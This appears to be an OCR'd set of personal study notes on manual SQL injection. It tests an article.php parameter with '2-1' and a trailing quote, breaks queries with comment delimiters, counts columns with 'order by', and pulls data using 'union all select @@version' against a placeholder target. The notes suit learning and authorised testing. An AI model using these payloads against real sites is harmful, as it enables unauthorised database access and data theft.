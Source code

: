 - Note Row 1 wasn't selected because of what was matched in Column 6.
- Only the first 3 columns were selected because of the query

**Testing if its vulnerable**

Goals:
1. Find out if it is sending unfiltered data to the db
2. How is it reading inputs

Testing for a vulnerability:

IOW see if it breaks- if it does it is passing stuff directly to the back-end :-)

Does it do math? 2-1 shows article 1

`/article.php?id=2-1`

Does it look for stings? Does a **'** break the backend query by passing the **'** as 's are used for strings in an SQL Query?

`/article.php?id=1'      (added a ' to the end)`

**PROPER EXAMPLES OF SQL WE ARE TRYING TO BREAK (What is under the hood):**

`SELECT id,name FROM users where name='test' and id=3;`

or

`SELECT id,name FROM users where ( name='test' and id=3 );`

If for example the injection point is at the word test we can try and break it with odd numbers of `'` or `(` or `)` **or** adding comment delimiters to break the query such as `--` or `#` or `*/`

**Does it break? Add a ' to the end of the line**

`http://$tgt/comment.php?id=738'`


**Mapping Out the Backend**

__Goals:__
1. How many columns?
2. Find the 'viewport'... where can we make data appear?
3. Columns and table names?
***
**How many columns are being pushed to the page?**
**Columns Discovery: first instance of a break it is 1 too high.**

`http://$tgt/comment.php?id=738 order by 7`

if it breaks at 7 there are 6 columns. Weld attacking request with victims. Keep it balanced...

`union all select`

Map the columns to where they output their data to the page.  Look for a column that lends to easy Data display... 

Example: the comments column

`http://$tgt/comment.php?id=738 union all select @@version,2,3,4,5,6`

Then `1,@@version,3,4`
